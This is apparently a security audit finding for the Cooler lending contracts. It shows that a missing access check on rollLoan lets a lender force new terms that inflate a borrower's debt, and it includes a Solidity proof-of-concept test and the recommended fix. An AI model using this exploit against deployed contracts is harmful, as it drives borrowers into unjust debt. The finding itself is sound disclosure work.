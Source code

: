 Brave Charcoal Ferret

high

# A malicious lender can increase a borrower's debt.
## Summary

## Vulnerability Detail
The lender can propose new terms to the borrower via `provideNewTermsForRoll`.
The borrower accepts the proposed new terms via `rollLoan`.

Note that `rollLoan` can be called by anyone, so the lender can call it immediately after the offer and accept an arbitrary loan.
Malicious lender can call `provideNewTermsForRoll` with a malicious parameter to only increase the debt.

Provide large `LOAN_TO_COLLATERAL` value, it can only increase the debt because the value of `newCollateral` will be zero.

Scenario:
```solidity
/* PARAMS */
uint256 public constant INTEREST_RATE = 5e15; // 0.5%
uint256 public constant LOAN_TO_COLLATERAL = 10 * 1e18; // 10 debt : 1 collateral
uint256 public constant DURATION = 30 days; // 1 month
```
1. Borrower calls `requestLoan` to borrow 1000e18
2. Malicious lender calls `clearLoan` to accept
debt: 1000410958904109589000 → 1000.4109

3. Malicious lender calls `provideNewTermsForRoll` with `INTEREST_RATE: INTEREST_RATE * 10000`, `LOAN_TO_COLLATERAL: uint256.max`, `DURATION: DURATION * 10000`
4. Malicious lender calls `rollLoan` to force acceptance

after debt: 41113779544004503657534164 → 41113779.54400451

POC:

```solidity
function test_rollLoan() public {
        // test inputs
        uint256 amount_ = 1000e18;
        bool directRepay = true;
        bool callbackRepay = false;
        // test setup
        cooler = _initCooler();
        (uint256 reqID, uint reqColl) = _requestLoan(amount_);
        uint256 loanID = _clearLoan(reqID, amount_, directRepay, callbackRepay);

        Cooler.Loan memory loan = cooler.getLoan(loanID);
        console.log("BEFORE: loan.amount", loan.amount, "loan.coll");

        vm.startPrank(lender);
        cooler.provideNewTermsForRoll(
            loanID,
            INTEREST_RATE * 10000,
            type(uint256).max,
            DURATION * 10000
        );
        
        cooler.rollLoan(loanID);
        
        loan = cooler.getLoan(loanID);
        console.log("AFTER: loan.amount", loan.amount, "loan.coll");
    }
```
## Impact
A malicious lender can increase a borrower's debt.
## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L160-L184
## Tool used

Manual Review

## Recommendation
`rollLoan` should only be callable by the borrower himself.